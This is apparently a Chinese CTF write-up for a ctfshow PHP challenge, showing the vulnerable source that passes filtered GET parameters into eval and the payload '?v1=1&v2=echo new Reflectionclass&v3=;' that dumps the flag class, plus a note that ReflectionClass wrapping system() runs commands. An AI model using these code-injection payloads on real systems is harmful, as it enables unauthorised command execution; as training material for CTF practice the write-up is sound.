

# 知识点
### 反射类
```php
反射类ReflectionClass执行命令

ReflectionClass反射类在PHP5新加入，继承自Reflector，它可以与已定义的类建立映射关系，通过反射类可以对类操作
反射类不仅仅可以建立对类的映射，也可以建立对PHP基本方法的映射，并且返回基本方法执行的情况。因此可以通过建立反射类new ReflectionClass(system('cmd'))来执行命令

```
# 思路
```php
<?php

highlight_file(__FILE__);
include("ctfshow.php");
//flag in class ctfshow;
$ctfshow = new ctfshow();
$v1=$_GET['v1'];
$v2=$_GET['v2'];
$v3=$_GET['v3'];
$v0=is_numeric($v1) and is_numeric($v2) and is_numeric($v3);
if($v0){
    if(!preg_match("/\\\\|\/|\~|\`|\!|\@|\#|\\$|\%|\^|\*|\)|\-|\_|\+|\=|\{|\[|\"|\'|\,|\.|\;|\?|[0-9]/", $v2)){
        if(!preg_match("/\\\\|\/|\~|\`|\!|\@|\#|\\$|\%|\^|\*|\(|\-|\_|\+|\=|\{|\[|\"|\'|\,|\.|\?|[0-9]/", $v3)){
            eval("$v2('ctfshow')$v3");
        }
    }
    
}
```
```php
?v1=1&v2=echo new Reflectionclass&v3=;
```
得到flag后还缺少一位，需要爆破16位<br />
